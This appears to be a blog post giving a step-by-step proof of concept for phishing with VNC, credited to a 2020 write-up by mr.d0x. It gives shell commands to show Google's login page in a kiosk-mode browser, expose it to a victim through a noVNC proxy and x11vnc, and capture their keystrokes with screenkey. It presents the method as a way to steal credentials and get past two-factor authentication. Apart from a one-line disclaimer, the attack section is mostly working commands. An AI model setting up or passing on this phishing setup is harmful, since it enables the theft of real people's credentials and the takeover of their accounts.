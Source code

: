 ```yaml
---
layout: distill
title: Phishing Attacks with VNC
date: 2024-05-04
description: Exploring the Sophisticated Potential of VNC for Phishing Attacks
tags: phishing attacks, cyber threats, information security, hacking techniques, malicious activities
categories: Hacking, Internet Security
thumbnail: TBA
toc:
  - name: Introduction
  - name: Important Disclaimer
  - name: Security Context
  - name: PoC
  - name: Credits
---
```


### Introduction

On February 19, 2022, [Mr. d0x](https://twitter.com/mrd0x) a cybersecurity researcher introduced a method that uses VNC for phishing attacks. I was impressed by the cleverness of this idea.

### Background

VNC, or Virtual Network Computing, is a way to share screens and control another computer remotely. It works by installing a VNC server on the computer you want to control, and a VNC viewer on the device you're using to control it.

Using VNC in a phishing attack is straightforward. We set up a VNC server, share our screen, specifically our browser window, and trick the victim into believing they are controlling their own browser while they are actually connected to our browser, allowing us to intercept any data that passes.

Using a library called [noVNC](https://novnc.com/), we can establish connections to VNC servers through modern web browsers.

This phishing technique has several benefits over traditional phishing methods:

- We can record all keystrokes made by the victim
- We can watch in real-time what the victim is doing on a website
- Regular Two-factor authentication will not protect against this type of attack

---

### Important Disclaimer

The information provided is for educational purposes only. I do not take responsibility for any actions taken based on the information provided.

### Security Context

Please note that the PoC demonstrated in this guide is not safe for "production" use, as it lacking essential security configurations.

---

### Prerequisites

- Linux machine that is fully updated

---

### PoC

First, we launch Firefox or any other browser in kiosk mode with the website we want to phish. For this example, we will use Google accounts.

Kiosk mode is a feature that can restrict user activities and interactions outside the intended scope of operation, this is necessary to prevent the victim from controlling other areas of our attacking machine, which may lead to unwanted access or control.

In the terminal, execute:

```bash
firefox --kisok https://accounts.google.com
```

Now, in a new terminal window, we will run a noVNC server:

```bash
git clone https://github.com/novnc/noVNC
cd noVNC
./utils/novnc_proxy --listen 0.0.0.0:8080 --vnc localhost:5900
```

{% include figure.liquid loading="eager" path="assets/img/posts/2/2.png" class="img-fluid rounded z-depth-1" zoomable=true %}

Now, we need to obtain the ID of the running Firefox process:

1. Run `xwininfo | grep id` in the terminal
2. Click on the Firefox window.
3. In the terminal, the window ID will be displayed.

{% include figure.liquid loading="eager" path="assets/img/posts/2/3.png" class="img-fluid rounded z-depth-1" zoomable=true %}

Once we have obtained the window ID of Firefox using `xwininfo`, we can start a local VNC server by running:

```bash
sudo apt install x11vnc
x11vnc -id <window_id>
```

Once we have started the local VNC server, we can use the `screenkey` tool to view key presses by the victim in real time. It is important to note that `screenkey` will display our own key presses as well.

```bash
sudo apt install screenkey
screenkey
```

### Victim

Fantastic! Our phishing setup is all set and can now be accessed through the following URL: `http://<ip>:8080/vnc.html?autoconnect=true`

As soon as a victim visits this URL, they will see what looks like the Google accounts login page. Little do they know, it's actually a live streaming video that they can interact with. It's a pretty sneaky and clever trick.

{% include figure.liquid loading="eager" path="assets/img/posts/2/4.png" class="img-fluid rounded z-depth-1" zoomable=true %}

### Credits

[Steal Credentials & Bypass 2FA Using noVNC](https://mrd0x.com/bypass-2fa-using-novnc/) (mr.d0x, 2020)
